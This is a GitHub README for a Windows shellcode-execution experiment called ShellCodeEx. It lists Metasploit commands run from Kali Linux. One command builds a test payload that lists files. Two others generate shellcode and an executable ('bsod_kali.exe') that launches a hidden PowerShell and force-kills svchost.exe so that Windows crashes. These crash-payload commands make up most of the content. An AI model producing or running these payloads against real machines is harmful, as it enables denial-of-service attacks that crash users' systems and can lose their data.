 # ShellCodeEx

[![](https://img.shields.io/badge/platform-Windows-informational)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/badge/written_on-C-000000.svg?logo=rust)](https://github.com/Zalexanninev15/ShellCodeEx)
[![](https://img.shields.io/badge/written_on-.NET_9-651DE5.svg?logo=dotnet)](https://dotnet.microsoft.com/download/dotnet/6.0)
[![](https://img.shields.io/badge/written_on-C%23-%23239120.svg?logo=sharp&logoColor=white)](https://github.com/Zalexanninev15/SharkRemoteV4)
[![](https://img.shields.io/github/v/release/Zalexanninev15/ShellCodeEx)](https://github.com/Zalexanninev15/ShellCodeEx/releases/latest)
[![](https://img.shields.io/github/downloads/Zalexanninev15/ShellCodeEx/total.svg)](https://github.com/Zalexanninev15/ShellCodeEx/releases)
[![](https://img.shields.io/github/last-commit/Zalexanninev15/ShellCodeEx/main.svg)](https://github.com/Zalexanninev15/ShellCodeEx/commits/main)
[![](https://img.shields.io/github/stars/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/stargazers)
[![](https://img.shields.io/github/forks/Zalexanninev15/ShellCodeEx.svg)](https://github.com/Zalexanninev15/ShellCodeEx/network/members)
[![](https://img.shields.io/badge/license-GPLv3-ligthgreen.svg)](LICENSE)
[![](https://img.shields.io/badge/Donate-FFDD00.svg?logo=buymeacoffee&logoColor=black)](https://z15.neocities.org/donate)

## Description

My personal experiment on executing shellcode on Windows.

## Kali Linux commands for generate shellcode

### Test shellcode (need PowerShell 7 on Windows):

```bash
msfconsole -x "use payload/windows/x64/exec; set CMD 'pwsh -CommandWithArgs \"ls\" && pause'; generate -f ps1"
```

### Generate BSOD (building an executable file)

```bash
msfvenom --platform windows --arch x64 -p windows/x64/exec CMD='cmd.exe /c start /min powershell -Command "Start-Process cmd -ArgumentList \"/c taskkill /F /IM svchost.exe\" -WindowStyle Hidden"' -b '\x00\x0A\x0D' -f exe -o bsod_kali.exe
```

### Generate BSOD

```bash
> msfconsole
> use payload/windows/x64/exec
> set CMD cmd.exe /c start /min powershell -Command \"Start-Process cmd -ArgumentList \\\"/c taskkill /F /IM svchost.exe\\\" -WindowStyle Hidden\"
```
